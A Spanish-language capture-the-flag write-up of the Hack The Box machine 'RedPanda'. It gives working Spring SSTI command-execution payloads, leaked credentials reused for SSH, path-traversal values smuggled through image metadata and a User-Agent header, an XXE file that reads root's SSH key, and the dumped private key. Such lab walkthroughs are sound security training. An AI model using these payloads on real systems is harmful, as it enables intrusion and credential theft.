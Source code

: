 ```yaml
---
title: Red Panda Writeup
published: false
---
```




Hoy resolveremos la máquina retirada "RedPanda" es una máquina de hack the box de dificultad fácil.


![RedPanda](https://user-images.githubusercontent.com/109216235/185928422-3e828dfa-543c-4e4f-b1e0-c1a2fdced03b.png)


# [](#header-1) Enumeración


Empezamos escaneando los puertos de la maquina con nmap


```nmap
nmap -sC -sV -T4 10.10.11.170

Nmap scan report for 10.10.11.170
PORT      STATE SERVICE
22/tcp    open  ssh
8080/tcp  open  http-proxy

```

Con este analisis podemos ver que tiene el puerto ssh y el puerto http abierto. Esto nos hace enteder que esta maquina tiene un puerto para acceder de forma remota y un puerto para poder acceder en internet


![imagen](https://user-images.githubusercontent.com/109216235/185764843-feace9a3-e2e5-43e9-a1c4-3271e7620de2.png)


# [](#header-2) Vulnerabilidad


Dentro de la pagina vemos un buscador y probando payloads vemos que nos bloquea el caracter $


![imagen](https://user-images.githubusercontent.com/109216235/185764827-93488e1f-c4de-4f1c-b9fb-d89c58276616.png)


Probamos con el caracter * y vemos que si que nos deja


![imagen](https://user-images.githubusercontent.com/109216235/185764892-8e6c1201-4efe-42bd-a6c4-26852677a38e.png)


Sabiendo esto usando esta herramienta de VikasVarshney https://github.com/VikasVarshney/ssti-payload podemos crear un payload que nos permita ejecutar comandos en el buscador. Si ponemos este payload en el buscador conseguiremos la "user.txt".


```javascript
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(107)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(116))).getInputStream())}
```

Utilizando la misma tecnica encontramos un archivo en esta ruta /opt/panda_search/src/main/java/com/panda_search/htb/panda_search/MainController.java Utilizando este payload 


```javascript
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(95)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(114)).concat(T(java.lang.Character).toString(46)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(97))).getInputStream())}
```


Y nos devuelve esto


```javascript
conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");
stmt = conn.prepareStatement("SELECT name, bio, imgloc, author FROM pandas WHERE name LIKE ?");
stmt.setString(1, "%" + query + "%");
```


Este output nos indica un posible usuario y una posible contraseña. Probando conseguimos acceder al ssh


```bash
ssh woodenk@10.10.11.170
woodenk@10.10.11.170's password: RedPandazRule
```


# [](#header-3) Escalada de privilegios


Ahora subimos "pspy" al servidor y vemos que root corre un script como woodenk.

```python3
CMD: UID=0    PID=8420   | /bin/sh -c sudo -u woodenk /opt/cleanup.sh
CMD: UID=1000 PID=8422   | /bin/bash /opt/cleanup.sh 
CMD: UID=1000 PID=8423   | /usr/bin/find /tmp -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=8424   | /usr/bin/find /var/tmp -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=8425   | /usr/bin/find /dev/shm -name *.xml -exec rm -rf {} ; 
CMD: UID=1000 PID=8426   | /usr/bin/find /home/woodenk -name *.xml -exec rm -rf {} ;
CMD: UID=1000 PID=8429   | /usr/bin/find /tmp -name *.jpg -exec rm -rf {} ; 
CMD: UID=1000 PID=8430   | /usr/bin/find /var/tmp -name *.jpg -exec rm -rf {} ; 
CMD: UID=1000 PID=8432   | /usr/bin/find /home/woodenk -name *.jpg -exec rm -rf {} ;
```


Revisando de nuevo el archivo donde encontramos credenciales vemos como exporta el xml


```python3
@GetMapping(value="/export.xml", produces = MediaType.APPLICATION_OCTET_STREAM_VALUE)
  public @ResponseBody byte[] exportXML(@RequestParam(name="author", defaultValue="err") String author) throws IOException {

      System.out.println("Exporting xml of: " + author);
      if(author.equals("woodenk") || author.equals("damian"))
      {
          InputStream in = new FileInputStream("/credits/" + author + "_creds.xml");
          System.out.println(in);
          return IOUtils.toByteArray(in);
      }
      else
      {
          return IOUtils.toByteArray("Error, incorrect paramenter 'author'\n\r");
      }
  }

```

Vemos también como el archivo App.java maneja los metadatos

```python3
public static String getArtist(String uri) throws IOException, JpegProcessingException
{
    String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
    File jpgFile = new File(fullpath);
    Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
    for(Directory dir : metadata.getDirectories())
    {
        for(Tag tag : dir.getTags())
        {
            if(tag.getTagName() == "Artist")
            {
                return tag.getDescription();
            }
        }
    }

    return "N/A";
}
```

Mirando esta configuración podemos modificar el campo "Artist" de una imagen cualquiera que después subiremos a la máquina

```python3
wget "https://avatars.githubusercontent.com/u/95899548?v=4"
Longitud: 33411 (33K) [image/jpeg]
Grabando a: «758475?v=4»

758475?v=4               100%[====================================>]       

«758475?v=4» guardado [33411/33411]

mv 758475\?v=4 eskere.jpg

exiftool -Artist="../home/woodenk/privesc" eskere.jpg
    1 image files updated
    
scp gato.jpg woodenk@10.10.14.28:.
woodenk@10.10.11.170's password: RedPandazRule
gato.jpg                                                 100%
```

A continuación creamos un archivo XML que apunte a la id_rsa de root en el directorio home.

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY key SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/gato.jpg</uri>
    <privesc>&key;</privesc>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

Hacemos una petición curl con el formato de que vimos en el archivo como User-Agent


```curl
curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/eskere.jpg"
```


Exportamos el xml desde /stats que coja nuestro archivo

Despues de un rato revisamos el xml y tendra el id_rsa de root


```xml
cat privesc_creds.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE replace>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/eskere.jpg</uri>
    <privesc>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
</privesc>
    <views>3</views>
  </image>
  <totalviews>5</totalviews>
</credits>
```

Finalizamos introduciendo el id_rsa para conectarnos por ssh y conseguir la root.txt

```bash
ssh root@10.10.11.170 -i id_rsa
root@redpanda:~# cat root.txt 
```
